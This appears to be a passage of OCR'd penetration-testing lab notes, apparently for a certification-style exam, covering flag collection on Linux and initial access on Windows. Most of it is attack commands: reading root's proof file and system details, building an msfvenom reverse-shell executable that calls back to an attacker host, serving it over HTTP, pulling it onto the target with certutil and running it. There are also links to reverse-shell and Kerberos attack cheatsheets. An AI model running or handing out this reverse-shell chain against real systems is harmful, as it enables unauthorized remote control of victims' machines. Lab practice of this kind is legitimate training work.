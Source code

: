 Then run the privileged command  
```
sudo reboot
```
## Actions On Objectives

Confirm flag hashes were found. root flag is in /root/proof.txt

Also dump the other info as well required

```sh
cat /root/proof.txt
```

```sh
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```

Submit hashes 

# Windows Targets

## Weaponize
Windows Exploit suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

make payloads with msfvenom
## Access
https://podalirius.net/en/articles/windows-reverse-shells-cheatsheet/


Kerberos Vulns
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

Create a windows reverse shell on kali

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x LPORT=4444 -f exe > payload.exe
```

Serve it with python from the local directory
```sh
python -m http.server 80
```

Download the payload on the target
```powershell
certutil -urlcache -split -f "http://192.168.x.x/payload.exe"
```

Run the reverse shell
```powershell
cmd /c C:\\ftp\\payload.exe
```
